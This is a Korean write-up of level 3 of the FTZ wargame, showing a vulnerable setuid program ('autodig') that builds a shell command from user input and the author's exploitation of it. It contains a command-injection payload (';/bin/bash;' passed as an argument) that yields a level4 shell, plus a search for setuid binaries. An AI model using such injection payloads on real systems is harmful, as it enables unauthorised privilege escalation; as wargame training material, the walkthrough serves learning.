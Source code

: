 ```yaml
---
title: FTZ 3번 Write-up
date: 2017-8-21 0:12:12
categories: FTZ
---
```


## FTZ 3번

    [level3@ftz level3]$ ls
    hint  public_html  tmp
    [level3@ftz level3]$ cat hint
    
    
    다음 코드는 autodig의 소스이다.
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(int argc, char **argv){
    
        char cmd[100];
    
        if( argc!=2 ){
            printf( "Auto Digger Version 0.9\n" );
            printf( "Usage : %s host\n", argv[0] );
            exit(0);
        }
    
        strcpy( cmd, "dig @" );
        strcat( cmd, argv[1] );
        strcat( cmd, " version.bind chaos txt");
    
        system( cmd );
    
    }
    
    이를 이용하여 level4의 권한을 얻어라.
    
    more hints.
    - 동시에 여러 명령어를 사용하려면?
    - 문자열 형태로 명령어를 전달하려면?

프로그램을 실행할때 인자로 문자열을 전달함으로써 원하는 명령을 실행시키는 문제이다. 

    [level3@ftz level3]$ find / -user level4 -perm +4000 2>/dev/null
    /bin/autodig

실행시 /bin/autodig 123   이렇게 하면 123을 실행인자로 넘겨준다. 하지만 문자열을 넘겨줄때에는 python, perl 같은 스크립트 언어를 활용하거나, ";"를 활용하면 된다.

    [level3@ftz level3]$ id
    uid=3003(level3) gid=3003(level3) groups=3003(level3)
    [level3@ftz level3]$ /bin/autodig `python -c 'print ";/bin/bash;"'`
    dig: Couldn't find server '': Name or service not known
    [level4@ftz level3]$ id
    uid=3004(level4) gid=3003(level3) groups=3003(level3)
    [level4@ftz level3]$ my-pass
    
    Level4 Password is "suck my brain".

뚫었다.
